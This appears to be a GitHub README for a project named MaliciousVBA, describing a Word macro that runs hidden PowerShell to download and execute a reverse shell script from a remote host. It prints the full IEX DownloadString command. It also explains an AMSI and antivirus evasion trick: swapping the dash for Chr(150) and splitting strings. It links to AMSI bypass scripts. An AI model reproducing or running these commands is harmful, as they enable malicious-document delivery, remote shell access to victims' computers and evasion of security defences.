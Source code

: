 # MaliciousVBA

I was reading various articles on how other go about bypassing AMSI using VBA. A great article can be found on this blog [codewhitesec](https://codewhitesec.blogspot.com/2019/07/heap-based-amsi-bypass-in-vba.html).

Instead of trying to replicate that I chose a different route. I tried to use the powershell command Invoke-Experession to download [Nikhil's](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script.


## Running Powershell in VBA

In order to run powershell commands using VBA I have used the code published in Microsoft's Docs [here](https://docs.microsoft.com/en-us/office/vba/access/concepts/windows-api/determine-when-a-shelled-process-ends). The code is ideal for this project because it doesn't get flagged by the Antivirus or AMSI and also spawns a seperate process, which means that even if the user closes Word we won't lose our reverse shell (or whatevet the payload of choice is). 

## Powershell Command 
The command I wanted to run in this macro is the following:

```sh
Powershell.exe -WindowStyle Hidden IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.246/1234567892222.ps1')
```
This command was flagged by AMSI as malicious. After experimenting a bit with variations of this command i found out that the AMSI was flagging -WindowStyle as malicious. Splitting the string using conventional amsi bypassing techinques ("-W" + "indo" + "wStyle") was not effective. Instead I started replacing the '-' symbol with ascii character codes of the various "-" symbols. Finally Chr(150) did the trick and my reverse shell script was executed. 

The final form of the powershell command was:
```sh
Chr(112) + "ower" + "shell.exe " + Chr(150) + "WindowStyle Hidden" + "  IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.246/1234567892222.ps1')"
```
## Powershell script (Invoke-PowerShellTcp)
I have slightly modified [Nikhil's](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) script in order to avoid being detected by AMSI for powershell. Once connection is established an amsi bypass script can be used.[Here is a list of AMSI bypass scripts that can be used by S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
